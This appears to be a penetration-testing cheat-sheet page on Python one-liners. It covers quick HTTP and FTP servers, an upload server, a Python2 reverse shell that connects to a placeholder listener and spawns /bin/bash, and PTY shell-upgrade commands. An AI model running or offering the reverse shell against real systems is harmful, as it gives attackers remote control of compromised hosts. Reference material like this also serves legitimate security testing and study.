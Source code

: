 ```yaml
---
title : "Python"
# pre : ' '
description : "Python is a programming language that lets you work quickly and integrate systems more effectively."
date : 2022-12-05T09:22:16+01:00
# hidden : true
# draft : true
weight : 1400
tags : ['Python2', 'Python3', 'FTP', 'HTTP']
---
```


---

Python is a programming language that lets you work quickly and integrate systems more effectively.

## Python Web Server

Serving files with local web server.

Python2

```plain
python2 -m SimpleHTTPServer 9090
```

Python3

```plain
python3 -m http.server 9090
```

## Python2/3 FTP Server

Requires: `python2 -m pip install pyftpdlib` / `python3 -m pip install pyftpdlib`

**Note:** By default this will allow *anonymous* login. To use username/password based authentication, please use the `-u USERNAME` and `-P PASSWORD` flags.

```plain
python2 -m pyftpdlib -p 21 -w
```

```plain
python3 -m pyftpdlib -p 21 -w
```

## Python3 Web Server with Upload

Download script [here](https://gist.github.com/crypt0rr/19f009c90205697ef26ab1fd82c26903).

```plain
python3 HTTPServerWithUpload.py -p 80
python3 HTTPServerWithUpload.py --port 80
```

## Python2 One-Liner Reverse Shell

```plain
python2.7 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<LISTERNER-IP>>",<<LISTERNER-PORT>>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Upgrade to Interactive Python Shell

Python2

```plain
python -c 'import pty; pty.spawn("/bin/bash")'
```

Python3

```plain
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## URL list

- [Python.org](https://www.python.org/)
